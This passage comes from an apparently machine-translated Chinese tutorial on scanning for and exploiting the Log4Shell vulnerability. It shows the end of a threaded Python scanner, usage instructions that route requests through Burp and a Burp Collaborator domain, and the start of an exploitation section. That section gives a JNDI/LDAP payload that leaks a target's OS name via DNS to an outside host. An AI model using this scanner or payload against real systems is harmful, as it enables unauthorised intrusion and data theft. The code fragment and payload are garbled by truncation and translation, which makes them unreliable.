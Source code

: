 ```
        print(e)
        passthreads = []
urlId = 0
if len(argv) > 1:
    urlFile = open(argv[1], 'r')
    urlList = urlFile.readlines()
    with ThreadPoolExecutor(max_workers=15) as executor:
        for url in urlList:
            urlId += 1
            threads.append(executor.submit(sendDetectionRequest, url, urlId))
else:
    print('[!] Syntax: python3 {} <urlFile> <collaboratorPayload>'.format(argv[0]))
```

要记住的事情:
i .确保你的打嗝是打开的，并且监听端口 8080(否则你可以注释掉代理)。
二。您需要一个目标列表(不要忘记在您的目标后面添加协议)。
三世。语法:

```
python3 log4shell.py targets.txt xyz.burpcollaborator.net
```

现在，在您的合作者中，如果您获得了域名为 137.xyz.burpcollaborator.net 的 DNS 交互，那么您列表中的第 137 个目标就是易受攻击的。
你也可以试试这个:【https://github.com/fullhunt/log4j-scan】T4

# 如何剥削？

在直接进入 RCE 之前，我们将尝试获取目标的 Java 版本和 os 名称。为了获取操作系统名称，我们将使用这个有效负载:$ { JNDI:LDAP://$ { sys:OS . name } . XYZ . burpcollaborator . net/a }

![](img/1c04d911de8e480c44a9d5d992e9465a.png)
